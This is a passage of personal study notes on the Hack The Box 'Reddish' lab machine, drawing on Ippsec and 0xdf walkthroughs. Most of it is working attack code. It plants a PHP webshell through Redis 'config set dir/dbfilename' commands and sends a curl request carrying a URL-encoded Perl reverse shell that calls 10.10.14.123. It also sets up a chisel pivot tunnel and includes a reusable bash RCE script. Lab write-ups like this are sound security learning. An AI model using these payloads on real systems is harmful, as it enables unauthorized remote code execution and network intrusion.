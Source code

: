 ```bash
redis-cli -h 127.0.0.1 -x set subscribetoippsecand0xdf "<? system($_REQUEST['cmd']); ?>"
redis-cli -h 127.0.0.1 config set dbfilename "cmd.php"
redis-cli -h 127.0.0.1 config set dir /var/www/html/8924d0549008565c554f8128cd11fda4/
redis-cli -h 127.0.0.1 save
exit
```
2. And try
```bash
curl -X POST http://localhost:10001/cmd.php -d "cmd=perl%20-e%20'use%20Socket;$i=%2210.10.14.123%22;$p=8005;socket(S,PF_INET,SOCK_STREAM,getprotobyname(%22tcp%22));if(connect(S,sockaddr_in($p,inet_aton($i))))%7Bopen(STDIN,%22%3E&S%22);open(STDOUT,%22%3E&S%22);open(STDERR,%22%3E&S%22);exec(%22/bin/bash%20-i%22);%7D;'" --output -
```

The real reason is piecing things together
![](f187a0ec71ce99642e4f0afbd441a68b.png)

## Day 10-11

But I ran into issues and researched how I was to accomplish this.

Ippsec uses Chisel - Local Pivot
```bash
# Full command for local pivot
nohup ./chisel client 10.10.14.94:10000 10003:127.0.0.1:10003 &
# Breakdown:
# Create another 
chisel client 
# pointing to our chisel server:
10.10.14.123
# on port
10000 
# Then open locally ON REDDISH:
10003:
# And for the server open:
127.0.0.1:10003
# Traffic from port 10003 on Reddish will tunnel back to
127.0.0.1:10003
```

This is so that we catch the reverse shell from the NodeRed and forward back to 127.0.0.1:10003.

My issue was that I could access it, but it could not access me. To connect up some Azure Vnet knowledge here for revision Peering require connections to be made twice, once in each direction between two vnets.

Fixed the RCE -
- Where are we uploading to? - /8924d0549008565c554f8128cd11fda4/
- How the CVE described how the need for newlines in the cmd.php webshell
```bash
# 0xDF 
# cmd.php:
 <? system($_REQUEST['cmd']); ?>
# 0xdfreddishRCE.sh
#!/bin/bash

# https://0xdf.gitlab.io/2019/01/26/htb-reddish.html#webshell
redis-cli -h 127.0.0.1 flushall
#  -h 127.0.0.1  had this below :/
cat cmd.php | redis-cli -x set subscribetoippsecandreaddf
redis-cli -h 127.0.0.1 config set dir /var/www/html/8924d0549008565c554f8128cd11fda4/
redis-cli -h 127.0.0.1 config set dbfilename "nvm.php"
redis-cli -h 127.0.0.1 save
exit
```